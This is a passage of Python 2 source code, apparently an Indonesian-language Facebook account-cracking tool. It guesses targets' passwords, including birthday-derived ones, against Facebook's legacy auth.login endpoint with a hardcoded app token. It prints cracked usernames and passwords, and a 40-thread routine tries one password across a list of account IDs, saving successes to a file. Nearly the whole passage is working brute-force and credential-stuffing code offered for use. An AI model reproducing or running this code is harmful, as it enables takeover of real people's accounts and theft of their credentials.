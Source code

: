 json.load(data)                             if 'access_token' in y:                                 print
'\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                 print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3                                 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                 menu_hack()                             else:                                 if 'www.facebook.com' in y['error_msg']:                                     print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                     print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3                                     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                     menu_hack()                                 else:                                     lahir = a['birthday']                                     pz4 = lahir.replace('/', '')                                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz4 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                                     y = json.load(data)                                     if 'access_token' in y:                                         print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                         print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4                                         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                         menu_hack()                                     else:                                         if 'www.facebook.com' in y['error_msg']:                                             print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                             print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                                             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4                                             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                             menu_hack()                                         else:                                             print '\x1b[1;91m[!] Maaf, gagal membuka password target :('                                             print '\x1b[1;91m[!] Cobalah dengan cara lain.'                                             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                             menu_hack()         except KeyError:             print '\x1b[1;91m[!] Terget tidak ditemukan'             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu_hack()   def crack():     global file     global idlist     global passw     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('reset')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID  \x1b[1;91m: \x1b[1;97m')         passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m')         try:             file = open(idlist, 'r')             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')             for x in range(40):                 zedd = threading.Thread(target=scrak, args=())                 zedd.start()                 threads.append(zedd)              for zedd in threads:                 zedd.join()          except IOError:             print '\x1b[1;91m[!] File tidak ditemukan'             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu_hack()   def scrak():     global back     global berhasil     global cekpoint     global gagal     global up     try:         buka = open(idlist, 'r')         up = buka.read().split()         while file:             username = file.readline().strip()             url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + username + '&amp;locale=en_US&amp;password=' + passw + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6'             data = urllib.urlopen(url)             mpsh = json.load(data)             if back == len(up):                 break             if 'access_token' in mpsh:                 bisa = open('Berhasil.txt', 'w')                 bisa.write(username + ' | ' + passw + '\n')                 bisa.close()